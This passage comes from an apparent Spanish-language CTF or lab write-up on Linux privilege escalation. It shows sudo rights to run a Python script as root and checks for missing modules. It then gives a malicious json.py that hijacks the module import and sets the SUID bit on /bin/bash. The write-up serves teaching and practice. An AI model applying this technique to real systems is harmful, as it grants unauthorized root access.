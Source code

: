 Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on b2188aff6dfb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on b2188aff6dfb:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/spidy.py
```

Vemos que podemos ejecutar el script `spidy.py` como el usuario `root`, por lo que vamos a investigar como escalar.

Si comprobamos las librerias a ver si existen en el sistema, veremos lo siguiente:

```shell
find / -name "os.py" 2>/dev/null
find / -name "sys.py" 2>/dev/null
find / -name "json.py" 2>/dev/null
find / -name "math.py" 2>/dev/null
```

Info:

```
/tmp/os.py
/usr/lib/python3.12/os.py
/tmp/math.py
```

Solamente veremos esto por lo que `sys` y `json` no las vemos en el sistema, vamos a probar con una tecnica llamada `Python Module Hijacking` con la libreria `json.py` de esta forma:

Ahora vamos a crear el `json.py` malicioso dentro del `/opt` ya que podremos crear archivos.

> json.py

```python
import subprocess

try:
    result = subprocess.run(["chmod", "u+s", "/bin/bash"], check=True, capture_output=True, text=True)
    print("✅ Permisos cambiados correctamente")
except subprocess.CalledProcessError as e:
    print("❌ Error al cambiar permisos:", e.stderr)
```

Ejecutaremos el script de esta forma:

```shell
sudo python3 /opt/spidy.py
```

Ahora si listamos la `bash` veremos lo siguiente:

```shell
ls -la /bin/bash
```
